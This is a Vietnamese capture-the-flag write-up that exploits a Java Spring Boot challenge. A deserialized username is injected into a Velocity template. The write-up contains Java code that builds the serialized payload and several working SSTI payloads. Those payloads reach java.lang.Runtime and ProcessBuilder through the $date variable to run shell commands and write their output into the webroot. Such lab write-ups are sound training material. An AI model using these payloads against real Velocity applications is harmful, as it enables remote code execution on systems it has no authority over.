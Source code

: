 ![image](https://github.com/user-attachments/assets/8c07037a-a4c8-4ffb-973b-9ff00cec3774)

Đề cho một web được viết bằng java springboot. Đọc source thì thấy trang trủ chấp nhận method `POST` với tham số là data. Decode hex và base64 rồi deserialize thành class User. Sau đó chuyền biến `name` vào template Velocity.

```java
public String hello(@RequestParam("data") String data) throws IOException {
        String hexString = new String(Base64.getDecoder().decode(data));
        byte[] byteArray = Encode.hexToBytes(hexString);
        ByteArrayInputStream bis = new ByteArrayInputStream(byteArray);
        ObjectInputStream ois = new SecureObjectInputStream(bis);

        String name;
        try {
            Users user = (Users)ois.readObject();
            name = user.getName();
        } catch (Exception var13) {
            Exception e = var13;
            throw new RuntimeException(e);
        }

        if (name.toLowerCase().contains("#")) {
            return "But... For what?";
        } else {
            String templateString = "Hello, " + name + ". Today is $date";
            Velocity.init();
            VelocityContext ctx = new VelocityContext();
            LocalDate date = LocalDate.now();
            DateTimeFormatter formatter = DateTimeFormatter.ofPattern("MMMM dd, yyyy");
            String formattedDate = date.format(formatter);
            ctx.put("date", formattedDate);
            StringWriter out = new StringWriter();
            Velocity.evaluate(ctx, out, "test", templateString);
            return out.toString();
        }
    }
```

Nhìn qua có thể thấy bị dính SSTI, việc cần làm bây giờ là phải truyền payload vào biến name để rce. Nhưng gặp phải một vấn đề là lúc `readObjec()`, method `resolveClass` trong class `SecureObjectInputStream` sẽ gọi đến  
```java
    protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException ,ClassNotFoundException{
        List<String> approvedClass = new ArrayList<String>();
        approvedClass.add(Users.class.getName());

        if(!approvedClass.contains(osc.getName())){
            throw new InvalidClassException("Can not deserialize this class! ",osc.getName());
        }
        return super.resolveClass(osc);
    }
```
Method này kiểm tra xem class có method `getName` hay không. Sau đó kiểm tra trong biến `name` có chứa ký tự `#` không. Trước hết ta viết code để serialize class `User` đã.
```java
    public static String bytesToHex(byte[] bytes) {
        StringBuilder hexString = new StringBuilder();
        for (byte b : bytes) {
            String hex = Integer.toHexString(0xFF & b);
            if (hex.length() == 1) hexString.append('0'); // Thêm '0' nếu cần
            hexString.append(hex);
        }
        return hexString.toString();
    }
    public static void main(String[] args) {
        Users u = new Users();
        try {
            ByteArrayOutputStream byteOut = new ByteArrayOutputStream();
            ObjectOutputStream out = new ObjectOutputStream(byteOut);
            u.setName("payload");
            out.writeObject(u);
            out.close();
            String hexString = bytesToHex(byteOut.toByteArray());
            String base64Encoded = Base64.getEncoder().encodeToString(hexString.getBytes());
            System.out.println("Serialized and Base64 encoded string: " + base64Encoded);

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
![image](https://github.com/user-attachments/assets/7d8d27a1-595d-4a17-88ec-9c8fa6c662a2)

Do không thể sử dụng ký tự `#` nên ta không thể dùng hàm `#set()` để tạo các biến trong template `Velocity`. Việc tạo ra biến để có thể gọi tới class `java.lang.Runtime` nhằm mục đích rce. Ví dụ
```
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```

Thật may là trong source code có tạo sẵn biến `$date` với kiể String để lấy ra thời gian 

```java
VelocityContext ctx = new VelocityContext();
            LocalDate date = LocalDate.now();
            DateTimeFormatter formatter = DateTimeFormatter.ofPattern("MMMM dd, yyyy");
            String formattedDate = date.format(formatter);
            ctx.put("date", formattedDate);
```
Ta có thể tận dụng biến này để gọi tới class `java.lang.Runtime`. Ban đầu thì mình tìm được [payload](https://garck3h.github.io/2023/07/03/velocity%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/)

```
$date.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('touch /tmp/1337')
```
Nhưng payload này chỉ có thể thực thi câu lệnh và gửi thông tin tiến trình về thực thi command

![image](https://github.com/user-attachments/assets/e5a0b970-c802-46c8-9d6e-76599522b687)

![image](https://github.com/user-attachments/assets/b0d39acb-7bef-4487-8d8d-21f48de4a834)

Nếu làm theo cách này thì ta có thể ghi output command vào webroot. Trong Springboot thì để xuất hiện webroot, ta cần đưa file vào thư mục: /tmp/tomcat-docbase.8080...., mỗi lần deploy thì giá trị đằng sau sẽ là các ký tự khác, nhưng prefix đằng trước sẽ luôn là tomcat-docbase.8080..

Mình thử tạo một file trên webroot 

![image](https://github.com/user-attachments/assets/ad3431e5-c989-4d04-a905-8654c87c4c9d)

Và truy cập thử thì có thể thấy được nội dung file 

![image](https://github.com/user-attachments/assets/946f390d-2b57-4139-8d71-62b878f2326a)

Như vậy chỉ cần thay payload thành
```
$date.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ls / > /tmp/$(ls /tmp | grep tomcat-docbase)/test1')
```
![image](https://github.com/user-attachments/assets/910bcce3-d689-4e15-82a7-9dc9972ca997)

![image](https://github.com/user-attachments/assets/98e7217a-c724-47dc-8723-d4937c5a5fae)

Giờ chỉ việt cat flag là xong


Lúc sau mình có tìm thêm được payload khác có thể xem output của shell luôn
```
$date.getClass().forName("java.io.BufferedReader").getConstructor($date.getClass().forName("java.io.Reader")).newInstance($date.getClass().forName("java.io.InputStreamReader").getConstructor($date.getClass().forName("java.io.InputStream")).newInstance($date.getClass().forName("java.lang.ProcessBuilder").getConstructor($date.getClass().forName("java.util.List")).newInstance(["ls","/"]).start().getInputStream())).lines().collect($date.getClass().forName("java.util.stream.Collectors").joining("\n"))
```

